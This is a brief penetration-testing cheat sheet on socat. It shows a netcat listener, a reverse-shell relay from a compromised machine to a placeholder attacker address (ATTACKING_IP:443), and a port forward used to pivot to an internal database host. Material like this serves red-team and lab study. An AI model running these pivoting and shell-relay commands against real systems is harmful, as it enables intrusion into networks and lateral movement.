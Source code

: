 ### socat  

## Reverse Shell Relay  

After setting up a listener on the attacker machine e.g.  

`nc -lvnp 443`  

A reverse shell relay can be created on the compromised machine to pivot into a previous unreachable network.  

`./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`  

## Port Forward  

Compromised server is 172.0.0.5:33060 and the target is 172.16.0.10:3306.

`./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &`
